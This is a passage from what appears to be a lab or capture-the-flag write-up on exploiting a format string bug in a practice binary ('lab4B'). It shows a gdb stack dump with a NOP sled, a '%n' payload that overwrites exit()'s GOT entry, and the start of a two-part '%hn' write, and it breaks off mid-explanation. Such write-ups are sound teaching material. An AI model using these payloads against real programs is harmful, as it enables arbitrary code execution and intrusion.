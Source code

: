 ```nasm
0xbffff660: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffff670: 0x90909090  0x90909090  0x000a9090  0x08048505
0xbffff680: 0xbffff887  0x0000002f  0x080499a0  0x08048792
0xbffff690: 0x00000001  0xbffff754  0xbffff75c  0xb7e5642d
0xbffff6a0: 0xb7fcd3c4  0xb7fff000  0x0804874b  0x00000033
```

Here, if we leave some space to rewrite the GOT, `0xbffff670` would be a good candidate to place our NOP-sled and shellcode. As we saw earlier, we replaced the *exit()* function address (at `0x080499b8`) by **0x04**, but we don't want to write *4*, we want to write **0xbffff670** (the stack pointer to our NOP sled). 

However, we got an issue, if writing 4 bytes as input means writing "4" at a specific address. Well, you'll have to write 3221223024 (*0xbffff670* in decimal) chars to write **0xbffff670**... impossible! Why? Let me show you.

There is a little trick to write the **value** we want: 

- `\xb8\x99\x04\x08%<value-4>x%6$n` (it's *value-4* because we already wrote 4 bytes, `\xb8\x99\x04\x08`)

For example, `\xb8\x99\x04\x08%96x%6$n` will write the value **100** at the address **0x080499b8**. 

However, because `%96x` will print your argument padded with 100 bytes (FYI, it pads with "space"), it will take forever to write **3221223024** chars. Let's see that in memory (don't forget to place a breakpoint on *exit()*). 

```nasm
gdb-peda$ r < <(python -c 'print("\xb8\x99\x04\x08" + "%96x%6$n")')
Starting program: /levels/lab04/lab4B < <(python -c 'print("\xb8\x99\x04\x08" + "%96x%6$n")')
�                                                           64 # See the padding ?

...[snip]...

Legend: code, data, rodata, value

Breakpoint 1, 0x08048730 in main ()
gdb-peda$ x/x 0x080499b8
0x80499b8 <exit@got.plt>:  0x64 # 100 in decimal
```

**Watch Out!** It's `%<Y>x` **NOT** `%<Y>$x`. The first one will **pad** the *1st* argument with *Y* bytes. However, the second one will **print** the *Y*th argument.
{: .notice--warning}

So, instead of writing a *long* integer (4 bytes), we'll write 2 *short* integers (2 bytes). To do that, we'll use another specifier: **%hn** (here, the `h` means *short integer*).

Let's break this down:

- We want to write **0xbffff670**. It means, **0xbfff** (49151 in decimal) in the high order bytes and **0xf670** (63088 in decimal) in the low order bytes.
- We want to write those value at **0x080499b8**. It means writing **0xbfff** at **0x080499b8 + 2** = **0x080499ba** (high order) and **0xf670** at **0x080499b8** (low order).

Now, we have to figure out the value to set for the padding. Here is the formula: 
